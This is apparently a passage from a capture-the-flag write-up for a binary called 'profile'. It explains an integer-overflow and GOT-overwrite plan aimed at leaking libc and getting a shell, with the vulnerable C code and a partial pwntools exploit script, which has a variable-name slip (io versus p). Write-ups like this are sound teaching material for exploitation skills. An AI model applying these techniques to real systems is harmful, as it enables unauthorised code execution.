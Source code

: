 Now, in order to exploit this, we must follow the following path:

1. Overwrite a function in `GOT` to give us an N number of writes i.e. overwriting with `main`.
2. Overwrite another function in `GOT` with `printf` to give us an `fsb` vulnerability
3. Leak the `libc` address using the `fsb` vulnerability
4. Overwrite the `free` function in `GOT` with `system` to get a shell.

Theoretically, this is the path that we must follow. Let's try and implement each of these steps.

### Overwriting a function in GOT to give us an N number of writes

For this to work, we must firstly start by the integer overflow we had found during our static analysis. Now, again, analysing the code, we can see that in the main, after invoking everything, we're calling `free`, and free function does exist in the `GOT` table. So, we can overwrite the `free` function with `main` which will give us an `N` number of arbitary writes.

```c:main
int main() {
  struct person_t employee = { 0 };

  employee.id = rand() % 10000;
  get_value("Age: ", &employee.age);
  if (employee.age < 0) {
    puts("[-] Invalid age");
    exit(1);
  }
  get_string("Name: ", &employee.name);
  printf("----------------\n"
         "ID: %04d\n"
         "Name: %s\n"
         "Age: %d\n"
         "----------------\n",
         employee.id, employee.name, employee.age);

  free(employee.name);
  exit(0);
}
```

Now, for integer overflow, I wrote a simple function in python that will take an address, and then bit shift it to the left by 32 bits and then add 1 to it, this will allow us to overflow the `id` variable and overwrite the `age` variable's pointer.

```python
def overflow(addr: int):
    return str((addr << 32) + 1)
```

Now, this will do the overflow, the next thing we need to do is to overwrite the data at the address i.e. we need to write the address of the function at this overflown address. The `exploit.py`, so far becomes:

```python
#!/usr/bin/env python3

from pwn import *

def overflow(addr: int):
	return str((addr << 32) + 1)

elf = context.binary = ELF("./profile")
io = process()

p.sendlineafter(b"Age", overflow(elf.got.free))
p.sendlineafter(b"Name: ", p32(0x41424344))
```
